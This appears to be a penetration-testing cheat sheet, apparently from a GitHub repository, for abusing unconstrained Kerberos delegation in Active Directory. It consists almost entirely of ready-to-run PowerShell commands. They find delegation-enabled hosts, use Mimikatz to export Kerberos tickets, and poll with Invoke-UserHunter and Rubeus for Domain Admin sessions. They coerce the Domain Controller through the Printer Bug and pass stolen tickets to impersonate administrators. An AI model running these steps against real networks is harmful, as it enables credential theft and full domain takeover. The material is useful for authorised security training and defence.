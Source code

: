 - Discover domain computers and users (must have Administrative privileges on them) which have unconstrained delegation enabled using ActiveDirectory Module

```
PS C:\> Get-ADComputer -Filter {TrustedForDelegation -eq $True}        # Domain Controllers will always show up as having unconstrained delegation, so ignore them
PS C:\> Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

- Compromise the server where unconstrained delegation is enabled, then check if any Domain Admin or high value target TGT is available (save this in a new directory, as it is easier to view the tickets when saved to disk)

```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"

PS C:\> rm -Force *.kirbi        # To delete the tickets
```

- Monitor for 100 seconds with a delay of 5 seconds for any incoming sessions on our compromised machine with unconstrained delegation from the user called Administrator

```
PS C:\> Invoke-UserHunter -ComputerName <compromised-computer> -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

- Save the tickets to disk once a Domain Admin or high value target connects to a service on our compromised box

```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

- Reuse the Domain Admin or high value target ticket using ptt

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-TEST.DOMAIN.LOCAL.kirbi"'
```

- Monitor every 5 seconds for any incoming sessions on our compromised machine with unconstrained delegation using Rubeus (https://github.com/GhostPack/Rubeus)

```
PS C:\> .\Rubeus.exe monitor /interval:5 /nowrap
```

- Run MS-RPRN.exe (https://github.com/leechristensen/SpoolSample) on our attacking machine to entice the Domain Controller to connect to the machine with unconstrained delegation using the Printer Bug 

```
PS C:\> .\MS-RPRN.exe \\test-dc.test.domain.local \\test-appsrv.test.domain.local
```

- Copy the base64 encoded TGT, remove extra spaces (if any), and use it on our attacking machine

```
PS C:\> .\Rubeus.exe ptt /ticket:<base64 encoded ticket>
```
